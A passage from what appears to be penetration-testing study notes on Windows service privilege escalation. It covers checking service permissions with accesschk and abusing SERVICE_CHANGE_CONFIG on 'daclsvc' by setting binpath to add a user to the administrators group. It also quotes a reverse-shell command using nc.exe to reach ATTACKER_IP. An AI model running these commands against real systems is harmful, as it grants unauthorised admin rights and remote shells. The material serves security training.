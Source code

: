 `binPath` is used to specific binary paths to Windows services. Is the location that points the service to the binary that need to execute when the service is started. If we have permission to modify the configuration, we can exploit this vulnerability. To check the permission, we can use `accesschk`.

1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wuvc daclsvc`
2.  We note that the `Everyone` has the `SERVICE_CHANGE_CONFIG` permission. Thanks to this, we can configure the daclsvc service (owned by the system) to run whatever command we want, like, for example, a command to elevate the user to admin privileges or maybe a command that sends back a shell with system privileges (sc config daclsvc binpath= “nc.exe ATTACKER\_IP 4444 -e cmd.exe”). In this case, we add the user in the administrator localgroup.\


    <figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
In the context of Windows services, the "binpath" refers to the executable file or command that the service runs. The "binpath" specifies the full path to the executable file associated with the service, along with any command-line arguments if needed.

When you are configuring or managing a Windows service, you may come across the "binpath" parameter. It can be a path to an executable or a command. Here's a brief explanation:

1. **Executable Path:**
   * If the service is associated with an executable file, the "binpath" should point to the location of that executable.
   * Example: `"C:\Path\To\Your\Service.exe"`
2. **Command Line:**
   * If the service is associated with a command, the "binpath" includes both the command and any necessary arguments.
   * Example: `"C:\Path\To\Your\Command.exe arg1 arg2"`


{% endhint %}

### Exploitation

To exploit this, we run the following command:

```powershell
sc config daclsvc binpath= "net localgroup administrators user /add"
```

Then we start the daclsvc service with the command sc start daclsvc and finally, we check that the user belongs to administrator localgroup:

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

## Service Escalation - Unquoted Service Paths

When a service is started, the Windows system tries to find the location of the executable to run the service. Indeed, if the executable path is enclosed in the quote `“”` then the system will know exactly where to find it. But, if in the path there are any quotes, then Windows will look for it and execute it in every folder of the path. So, for example, if we have the path:
